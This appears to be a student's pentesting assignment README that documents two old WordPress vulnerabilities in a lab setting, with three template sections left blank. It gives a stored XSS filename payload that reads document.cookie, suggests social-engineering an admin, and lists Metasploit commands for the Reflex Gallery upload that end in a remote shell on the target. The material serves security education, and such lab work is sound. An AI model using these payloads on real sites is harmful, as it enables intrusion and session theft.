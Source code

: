 # cis221_codepath

See branches for assignments.

# Project 7 - WordPress Pentesting

Time spent: **25** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 -- WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename 
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in the media_handle_upload function in wp-admin/includes/media.php in WordPress before 4.6.1 might allow remote attackers to inject arbitrary web script or HTML by tricking an administrator into uploading an image file that has a crafted filename. 
    - Vulnerability types: Cross-site scripting
    - Tested in version: WordPress 4.2
    - Fixed in version: WordPress 4.6.1
  - [ ] GIF Walkthrough: <img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.gif" alt="Walkthrough" style="max-width: 100%;">
  - [ ] Steps to recreate: 
    -  1. Confirm WordPress target host is vulnerable. WP version must be 2.5-4.6.
    -  2. Create an image file and insert '<img src=a onerror=alert(document.cookie)>' into the filename. This is the paylod script that will cause a javascript alert. For example, I used "marvinc0d3p4th<img src=a onerror=alert(document.cookie)>.jpg"
    -  3. Use social engineering to have admin of target host to upload image file as an attachment page. Even better is if you can get the admin to use the created attachment page url to embed into a post. 
<img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.png">
  - [ ] Affected source code: (https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
  
Reference: https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html


### 2. CVE-2015-4133 -- WordPress Plugin Reflex Gallery - Arbitrary File Upload (Metasploit) 
  - [ ] Summary: This module exploits an arbitrary PHP code upload in the WordPress Reflex Gallery version 3.1.3. The vulnerability allows for arbitrary file upload and remote code execution. 
    - Vulnerability types: Arbitrary file upload, remote code execution.
    - Tested in version: WordPress 4.2, ReFlex Gallery plugin 3.1.3
    - Fixed in version: ReFlex Gallery plugin 3.1.4
  - [ ] GIF Walkthrough: 
  - [ ] ![WP_reflex_gallery_pwned](https://user-images.githubusercontent.com/98624766/163491702-53e1d5cb-5cbf-4be2-b410-b855596067fd.gif)
  - [ ] Steps to recreate: 
    -  1. Confirm WordPress target host is vulnerable. Reflex Gallery plugin version older than 3.1.4 must be installed and activated.
      -  1a. Upload image into Reflex gallery plugin.
    -  2. Add Reflex gallery shortcode into post. 
    -  3. Run metasploit from attacker machine using the following commands:
        - sudo service postgresql start
        - sudo msfdb init
        - msfconsole
    -  3a. in msfconsole shell, run the following commands to install the metasploit payload and create a connection with the target machine:
        - db_status
        - search Reflex #output should be: exploit/unix/webapp/wp_reflexgallery_file_upload
        - use exploit/unix/webapp/wp_reflexgallery_file_upload
        - info
        - set RHOST <url.of.target.machine>
        - set LHOST <url.of.attacker.machine>
        - exploit
    -  4. Meterpreter shell running, run the following commands to start a new shell inside the target machine:
        - shell
        
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
  - References:
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-4133
  - Reflex Plugin 3.1.3 zip: [reflex-gallery.3.1.3.zip](https://github.com/peelingwave/cis221_codepath/files/8492582/reflex-gallery.3.1.3.zip)

### 3. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
